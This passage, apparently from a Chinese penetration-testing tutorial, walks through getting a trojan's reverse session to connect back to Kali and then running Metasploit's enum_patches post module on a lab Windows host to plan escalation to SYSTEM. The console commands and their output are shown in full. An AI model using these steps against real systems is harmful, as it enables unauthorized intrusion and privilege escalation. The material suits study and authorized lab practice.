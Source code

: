 #### 4.5.1.3. 上线

当讲木马上传后，然后进行运行，即可在kali中显示上线选项，并自动反弹会话窗口，可以看到这里监听到192.168.10.150上线。

![image-20230316101217168](assets/DypGgncmQzSk6uT.png)

#### 4.5.1.4. 查看权限

这里还是一样的获取到的权限是administrator，由于演示麻烦，未直接从webshell上执行，所以才会出现administrator的权限，但是不用管，我们需要的是将权限提升到system。

![image-20230316101235198](assets/9RlpJZ35WMknQT6.png)

### 4.5.2. 半自动化提权操作

#### 4.5.2.1. 提权模块

```
use post/windows/gather/enum_patches 半自动：根据漏洞编号找出系统中安装的补丁
```

#### 4.5.2.2. 操作设置

这里半自动化，在获取后，还是需要手动去找，这里就和手动溢出漏洞提权差不多，所以这里就演示一下。

```
msf6 exploit(multi/handler) > use post/windows/gather/enum_patches   ##设置半自动提权
msf6 post(windows/gather/enum_patches) > options  ##查看参数

Module options (post/windows/gather/enum_patches):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_patches) > set session 2  ##设置编号，也就是刚刚上线的编号。
session => 2
msf6 post(windows/gather/enum_patches) > run  ##开始收集

[*] Running module against ADMIN-PC (192.168.10.40)

Installed Patches
=================

  HotFix ID  Install Date
  ---------  ------------
  KB2534111  1/5/2023
  KB976902   11/21/2010

[*] Patch list saved to /root/.msf4/loot/20230316101403_default_192.168.10.40_enum_patches_978734.txt
[*] Post module execution completed

```
